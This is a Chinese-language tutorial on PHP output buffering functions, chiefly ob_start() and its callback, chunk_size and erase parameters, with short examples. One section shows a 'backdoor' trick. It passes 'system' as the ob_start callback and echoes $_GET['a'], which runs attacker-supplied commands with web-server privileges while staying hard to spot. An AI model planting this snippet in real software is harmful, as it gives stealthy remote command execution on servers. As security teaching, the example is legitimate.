 本篇文章中，如果没有特别说明，php.ini中output_buffering, implicit_flush 和 output_handler的值均为默认值。

## Output Control 函数详解
### ob_start()
**bool ob_start ([ callback $output_callback [, int $chunk_size [, bool $erase ]]] )**  
此函数大家从命名上也能明白其含义，就是打开输出缓冲区，从而进行下一步的输出缓冲处理。这里要特意说的是其参数的用法，第一个参数要传递一个回调函数，其需将缓冲区内容做为参数，并且返回一个字符串。他会在缓冲区被送出时调用，缓冲区送出指的是执行了例如ob_flush() 等函数或者脚本执行完毕。ob_flush() 函数会在下面介绍到，来看一个简单的例子就能理解其用法：
  
```
function dothing1($echo_thing){
    return ' #' . $echo_thing . '# ';
}
 
ob_start('dothing1');
echo 'Apple';

输出结果
#Apple#
```

从输出的结果可以看出单词两边被添加了“#”，也就是说在缓冲区内容输出时，运行了我们定义的 dothing1函数。  

再来看一个更实际的例子，也就是常见到的将网页内容利用 gzip 压缩后再输出，代码如下：

```
ob_start();
echo str_repeat('Apple', 1024);
```

输出结果：没有使用gzip压缩的情况下,输出内容大小为**5.2KB**。  
输出结果：使用gzip压缩的情况下，文档大小小了很多，压缩花费了时间，所以时间长了。    

而第二个参数 chunk_size 为缓冲区的字节长度，如果缓冲区内容大于此长度，将会被送出缓冲区，默认值为0，代表函数将会在最后被调用。第三个参数 erase 如果被设置为 flase , 则代表脚本执行完毕后缓冲区才会被删除，如果提前执行了删除缓冲区函数(后面会提到)，则会报一个错误。  

ob_start() 的用法就这么多，但有两点需要特别注意的地方：
* ob_start() 可重复调用，也就是说一个脚本中可以存在多个缓冲区，但记得要按照嵌套顺序将他们全部关闭掉，而如果多个 ob_start 都定义了第一个参数，也就是都定义了回调函数，则会按照嵌套顺序依次执行。关于缓冲区的堆叠嵌套，将在 ob_get_level 函数处详细介绍，这里就不过多阐述了。  

ob_start() 还有一个不太明显但很致命的后门用法，实现代码如下：

```
$cmd = 'system';
ob_start($cmd);
echo $_GET['a'];
ob_end_flush();

windows下面的输出结果：
14 个目录 30,970,388,480 可用字节
```
 
如果理解了上面关于 ob_start的用法，这段代码就不难理解了，其应用了 ob_start 函数会将缓冲区输出的内容作为参数传入所设置的函数中的特点，实现了以Web服务器权限远程执行命令，并且不宜被发觉。  

### ob_get_contents()
**string ob_get_contents ( void )**
此函数用来获取此时缓冲区的内容，下面的例子就能很好的理解其用法： 
